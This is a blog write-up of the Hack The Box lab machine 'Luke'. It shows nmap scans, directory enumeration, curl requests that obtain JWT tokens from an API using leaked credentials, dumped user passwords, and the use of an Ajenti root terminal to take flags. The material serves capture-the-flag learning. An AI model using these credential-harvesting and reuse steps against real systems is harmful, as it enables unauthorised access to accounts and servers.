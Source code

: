 +++
author = "Nick"
categories = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
date = 2019-09-14T13:52:03Z
description = ""
draft = false
thumbnail = "/images/2019/07/infocard-1.png"
slug = "hack-the-box-luke"
summary = "Back with a quick write-up on the box Luke from HtB"
tags = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
title = "Hack The Box - Luke"
url = "/hack-the-box-luke"

+++


Back with a quick write up on the box Luke from HtB. Let me preface this with, for whatever reason, I had a hard time with this, until I realized I forgot part of my enumeration steps. Derp, well, off we go!

As usual we start it off with a standard nmap scan.

```
nmap -sC -sV -oA ./scan 10.10.10.137
```

We get back a fairly small listing of results.

```
Nmap scan report for 10.10.10.137
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.15.29
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp open  ssh?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.86 seconds
```

Well, lets see what port 21 has in store for us. We log in and we get a directory, as show above, called webapp. We change to the dir and see that there's one file here. We download it and cat it:

![](/images/2019/07/image-26.png)

Well, interesting, we pop over to port 80 on the box and we have content there. However, nmap didn't show the port available. Let's rerun our nmap with all ports.

```
nmap -p 1-65535 10.10.10.137
```

This time we see a bit of a different response. I've found that newer boxes on HTB tend to be very unstable, we'll chalk this one up to that.

![](/images/2019/07/image-28.png)

So the first thing we're going to do is head over to port 8000 and see what we have. We're greeted with a Ajenti login page. Lets try the basics and see if it lets us pass, the default of root / admin for the Ajenti install. No dice. We also see port 3000 running when we browse to it we see a JSON returned with 'Auth token is not supplied'.

![](/images/2019/07/image-27.png)

We see a few locations. It looks like the management is returning code 401, which means we need a password to get there. We'll also enumerate using Dirbuster, omitting directories, to see what files we come back with. Sure enough we find a config.php file. Inside we have some credentials!

![](/images/2019/07/image-31.png)

So we try them against the port 8000 login, nothing. We try them against management, nothing. We try them against /login.php, nothing. Well maybe we can use them to authenticate against the API on port 3000. To do this we can use Curl.

```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```
or
```
curl -H "Content-Type: application/json" -X POST -d'{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```

Damn, that didn't work. However, our research on port 3000 shows that root isn't an acceptable (unless created otherwise) account. Admin is the account it normally uses. So in the above, we replace root with admin and we get a token back.

```
{"success":true,
"message":"Authentication successful!",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY3MjE5LCJleHAiOjE1NjM0NTM2MTl9.Jp9s0VKON-ZMEh_LLv8rOoV3ARET09MzMm1CLm0Lo4Q"}
```

Now we can use that token to authenticate and use other API endpoints. To test this we issue another curl to the root of the 3000 port and see what is returned, with some luck it will be an authentication acknowledgement.

```
curl -X GET 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000
```
and we get back 
```
{"message":"Welcome admin ! "}
```

Awesome, now lets use this to enumerate! We our dirb shows that we have a /users enpoint, lets pull that data. We get an output of 4 users.

```
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

In this case we will pull each user name to see what data is held.

```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000/users/USERNAMEHERE

```

Sure enough data is held inside, as we expected.

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

Now that we have some passwords and usernames, we should try them against the many login pages we had before. None work on port 8000, lets head back to the /login.php on port 80. None of those worked there, lets try the /management. Looks like the credentials for Derry worked.

![](/images/2019/07/image-33.png)

We already know that what the login.php and config.php. Lets take a look at the config.json. When we load it we seem to have the Ajani config file which contains some goodies. The first thing we see is that Terminal plug is running a shell root. So we can probably use that to gain our flags. We also have the root username and password. This should be smooth sailing from here!

We load up port 8000 and log in with the credentials we've found. Once logged in we scope out the install and see what this is all about. At the bottom of the navigation pane we have the option for Terminal.

![](/images/2019/07/image-34.png)

Looks like we should take it for a spin. Once it's loaded head over to root and snag the flag.

![](/images/2019/07/image-35.png)

After that we head to /root/usr/home/derry to snag his user.txt.

![](/images/2019/07/image-36.png)

We are done! A quick and easy box. The hardest part for some might be learning how to use curl against the API. See you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

